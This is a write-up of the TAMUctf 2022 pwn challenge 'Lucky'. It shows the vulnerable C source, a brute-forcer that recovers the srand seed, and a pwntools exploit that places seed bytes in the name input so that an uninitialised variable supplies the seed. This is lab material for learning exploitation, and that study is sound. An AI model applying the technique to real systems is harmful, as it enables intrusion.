

# Lucky challenge writeup
Lucky was a pwn challenge from the tamuctf 2022. It was a special challenge for me as it didn't involve trivial bugs like stack buffer overflows, format string bugs...etc. 
We were given a binary and its source code which is the following:
```c
#include <stdio.h>
#include <stdlib.h>

void welcome() {
    char buf[16];
    printf("Enter your name: ");
    fgets(buf, sizeof(buf), stdin);
    printf("\nWelcome, %s\nIf you're super lucky, you might get a flag! ", buf);
}

int seed() {
    char msg[] = "GLHF :D";
    printf("%s\n", msg);
    int lol;
    return lol;
}

void win() {
    char flag[64] = {0};
    FILE* f = fopen("flag.txt", "r");
    fread(flag, 1, sizeof(flag), f);
    printf("Nice work! Here's the flag: %s\n", flag);
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    welcome();
    srand(seed());

    int key0 = rand() == 306291429;
    int key1 = rand() == 442612432;
    int key2 = rand() == 110107425;

    printf("Key0: %d | key1: %d | key2: %d", key0, key1, key2);
    if (key0 && key1 && key2) {
        win();
    } else {
        printf("Looks like you weren't lucky enough. Better luck next time!\n");
    }
}
```
It basically asks  for an input then initializes the random with a seed (i'll come back to it later) and then compares the values of `key0`, `key1`, `key2`
respectively with `306291429 , 442612432, 110107425`. If all the checks are `true` it prints for us the flag. </br>
After reading source code again and again i was like `this is impossible to solve` since i don't know the seed that generates this sequence `306291429, 442612432, 110107425`.</br>
I opened the binary in gdb, gave it `AAAA` as input and made a breakpoint before the `seed` function exists to try to know how the seed is generated. 
The return value was stored in `eax` so i inspected it with `i r eax` and it was `0x7fff` </br>


At this point i was desperate and about to give up on the challenge. Because i thought that i don't have a control on the `seed` value and since `ASLR` is enabled on the remote system bruteforcing is just impossible. </br>
I opened the binary in gdb again and gave it `"A" * 16` as input this time, made break point in the same place inspected the seed and....boooom!


the seed is equal to `0x414141` which is the hexadecimal representation of `AAA` .</br>
At this point the solution was clear i just need to find the seed which generates that sequence of random numbers and its done. </br>
I got the seed with this:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(int argc, char *argv[]) {

    unsigned int seq[] = {306291429, 442612432, 110107425};

    for (int i = 0; i < 4294967295; i++) {

        srand(i);
        for (int j = 0; j < 3; j++) {

            if (rand() != seq[j])
                break;

            if (j == 2){
                printf("found seed: %d\n", i);
                printf("Next number: %d\n", rand());
                exit(0);
            }
        }
    }
    return 0;
}
```
After compiling and running it i got this:</br>
 </br>
Now we have the seed everything is ready to get our flag. I made a small python script to send the seed to the remote server which is:
```python
from pwn import *

context.arch="x86_64"

def conn():
    if args.LOCAL:
        p = process("./lucky")
        return p 
    elif args.REMOTE:
        p = remote("tamuctf.com", 443, ssl=True, sni="lucky")
        return p 
    else:
        exit(0)
        
def main():
    global p 
    p = conn()
    seed = 5649426
    #b"4V\x12" is the hexadecimal representation of the seed 
    payload = b"A" * (15 - len(b"4V\x12"))
    payload += b"\x124V"
    p.sendlineafter("name: ", payload)
    p.recvline()
    p.recvline()
    p.recvline()
    flag = p.recvline()
    log.info(f"flag: {flag}")
if __name__ == "__main__":
    main()
```
after running it we get the flag:

flag: `gigem{un1n1t14l1z3d_m3m0ry_15_r4nd0m_r1ght}`
